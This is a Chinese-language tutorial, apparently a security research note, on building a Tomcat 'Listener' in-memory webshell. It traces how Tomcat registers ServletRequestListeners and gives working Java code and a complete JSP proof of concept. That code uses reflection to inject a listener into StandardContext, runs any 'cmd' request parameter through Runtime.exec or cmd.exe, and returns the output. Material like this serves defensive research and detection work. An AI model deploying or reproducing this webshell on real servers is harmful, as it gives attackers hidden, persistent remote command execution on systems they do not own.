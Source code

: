 ### 简介

Listener 是监听器，当 Web 应用在 Servlet 容器中运行时，Servlet 容器内部会不断的发生各种事件，如 Web 应用的启动和停止、用户请求到达等。 Servlet 容器提供了一些默认的监听器来监听这些事件，当事件发生时，Servlet 容器会负责调用监听器的方法。当然，也可以定义自己的监听器去监听你感兴趣的事件，将监听器配置在web.xml中。

Listener主要分为以下三个大类：

- ServletContext，服务器启动和终止时触发
- Session，有关Session操作时触发
- Request，访问服务时触发

显然只需访问服务即可触发的Request类监听器适合用来做内存马，如果在Tomcat要引入listener，需要实现两种接口，分别是`LifecycleListener`和原生`EvenListener`。

实现了`LifecycleListener`接口的监听器一般作用于tomcat初始化启动阶段，此时客户端的请求还没进入解析阶段，不适合用于内存马。

另一个`EventListener`接口，在Tomcat中，自定义了很多继承于`EventListener`的接口，应用于各个对象的监听，idea下用快捷键`Ctrl+H`查看所有实现接口的类

![image-20220907204056544](images/image-20220907204056544.png)

其中最适合作为Webshell的要数ServletRequestListener，`ServletRequestListener`用于监听`ServletRequest`对象的创建和销毁，我们可以拿到每次请求的的事件：ServletRequestEvent，通过其中的getServletRequest()函数就可以拿到本次请求的request对象，从而加入我们的恶意逻辑 。

先写一个listener

```java
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;

public class TestListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("destroy TestListener");
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("initial TestListener");
    }
}
```

web.xml

```xml
<listener>
<listener-class>TestListener</listener-class>
</listener>
```

![image-20220908203919015](images/image-20220908203919015.png)



接下来我们需要关注两个点，如何写一个恶意监听器和如何实现动态注册

对于filter来讲，ServletRequest本身就包含了我们的请求

```java
   public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("执行过滤操作");
        filterChain.doFilter(servletRequest,servletResponse);
    }
```

所以对于listener我们同样需要有一个方法来获取request

```java
public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("initial TestListener");
    }
```

跟进一下requestInitialized传入的参数ServletRequestEvent

![image-20220909120255395](images/image-20220909120255395.png)

注意到这里getServletRequest()，返回一个request，我们和filter的对比一下

![image-20220909124838546](images/image-20220909124838546.png)

因此我们写一个恶意listener试试

```java
  public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("initial TestListener");
        String cmd;
        try {
            cmd = sre.getServletRequest().getParameter("cmd");
            org.apache.catalina.connector.RequestFacade requestFacade = (org.apache.catalina.connector.RequestFacade) sre.getServletRequest();
            Field requestField = Class.forName("org.apache.catalina.connector.RequestFacade").getDeclaredField("request");
            requestField.setAccessible(true);
            Request request = (Request) requestField.get(requestFacade);
            Response response = request.getResponse();

            if (cmd != null){
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                int i = 0;
                byte[] bytes = new byte[1024];
                while ((i=inputStream.read(bytes)) != -1){
                    response.getWriter().write(new String(bytes,0,i));
                    response.getWriter().write("\r\n");
                }
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }
```

![image-20220909133407987](images/image-20220909133407987.png)

接下来我们关注listener的注册流程

```
requestInitialized:12, TestListener
fireRequestInitEvent:5982, StandardContext (org.apache.catalina.core)
invoke:121, StandardHostValve (org.apache.catalina.core)
invoke:92, ErrorReportValve (org.apache.catalina.valves)
invoke:698, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
service:367, CoyoteAdapter (org.apache.catalina.connector)
service:639, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:882, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1691, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1191, ThreadPoolExecutor (org.apache.tomcat.util.threads)
run:659, ThreadPoolExecutor$Worker (org.apache.tomcat.util.threads)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:748, Thread (java.lang)
```

这里可以发现listener在`StandardContext#getApplicationEventListeners`中获得

![image-20220909164418103](images/image-20220909164418103.png)

跟进

```java
    public Object[] getApplicationEventListeners() {
        return this.applicationEventListenersList.toArray();
    }
```

`applicationEventListenersList`数组存放实例化后的listener

最终我们反射调用`addApplicationEventListener`添加listener即可

```java
    public void addApplicationEventListener(Object listener) {
        this.applicationEventListenersList.add(listener);
    }
```

poc：

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>

<%!
    public class MyListener implements ServletRequestListener {
        public void requestDestroyed(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null){
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",req.getParameter("cmd")}).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\\A");
                    String out = s.hasNext()?s.next():"";
                    Field requestF = req.getClass().getDeclaredField("request");
                    requestF.setAccessible(true);
                    Request request = (Request)requestF.get(req);
                    request.getResponse().getWriter().write(out);
                }
                catch (IOException e) {}
                catch (NoSuchFieldException e) {}
                catch (IllegalAccessException e) {}
            }
        }

        public void requestInitialized(ServletRequestEvent sre) {}
    }
%>

<%
    Field requestField = request.getClass().getDeclaredField("request");
    requestField.setAccessible(true); 
    Request req = (Request) requestField.get(request); 
    StandardContext context = (StandardContext) req.getContext();
    
    MyListener listenerDemo = new MyListener();
    context.addApplicationEventListener(listenerDemo);
%>
```

当然获取StandardContext的方式还可以是：

```java
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
    StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
```



参考：

https://yq1ng.github.io/2021/12/07/listener-nei-cun-ma/#!

http://wjlshare.com/archives/1651

https://github.com/Y4tacker/JavaSec/blob/main/5.%E5%86%85%E5%AD%98%E9%A9%AC%E5%AD%A6%E4%B9%A0/Tomcat/Tomcat-Listener%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Listener%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC.md

https://mp.weixin.qq.com/s/YhiOHWnqXVqvLNH7XSxC9w
